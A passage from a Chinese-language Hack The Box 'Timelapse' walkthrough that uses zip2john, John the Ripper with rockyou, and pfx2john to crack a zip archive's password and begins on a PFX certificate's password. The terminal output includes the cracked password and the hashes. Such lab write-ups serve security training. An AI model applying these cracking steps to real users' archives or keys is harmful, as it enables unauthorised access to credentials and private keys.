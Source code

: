 使用 zip2john 脚本创建一个我们可以尝试破解的哈希文件:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# zip2john winrm_backup.zip > winrm.hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8

┌──(root💀kali)-[~/htb/timelapse]
└─# cat winrm.hash      
winrm_backup.zip/legacyy_dev_auth.pfx:$pkzip$1*1*2*0*965*9fb*12ec568
c88a3cec7243acf179b842f2d96414d306fd67f0bb6abd97366b7aaea736a0<SNIP>
82727976b2243d1d9a4032d625b7e40325220b35bae73a3d11f4e82a4085f9<SNIP>
7b7e506452f76*$/pkzip$:legacyy_dev_auth.pfx:winrm_backup.zip::winrm_backup.zip
```

现在我们可以试着用 JohnTheRipper 和 rockyou 单词表来破解:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt winrm.hash  
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:03 DONE (2022-04-09 22:31) 0.2583g/s 897521p/s 897521c/s 897521C/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

只需要几秒钟就能得到密码。让我们解压文件，看看里面的内容:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# unzip winrm_backup.zip                                  
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx
```

# PFX 文件哈希破解

我们有一份档案里的 pfx 文件。如果你以前没有使用过 pfx 文件，那么[这个](https://www.howtouselinux.com/post/pfx-file-with-examples)是有帮助的。最后一节解释了如何从 pfx 文件中提取私钥。但是，如果我们尝试，我们会发现这也需要一个密码:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key
Enter Import Password:
Mac verify error: invalid password?
```

让约翰来破解这个。首先将 pfx 文件转换成一个 John 友好的散列:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# pfx2john legacyy_dev_auth.pfx > pfx.hash

┌──(root💀kali)-[~/htb/timelapse]
└─# cat pfx.hash
legacyy_dev_auth.pfx:$pfxng$1$20$2000$20$eb755568327396de179c4a5d
668ba8fe550ae18a$3082099c3082060f06092a864886f70d010701a082060004
8205fc308205f8308205f4060b2a864886f70d010c0a0102a08204fe308<SNIP>
23b99e245b03465a6ce0c974055e6dcc74f0e893:::::legacyy_dev_auth.pfx
```
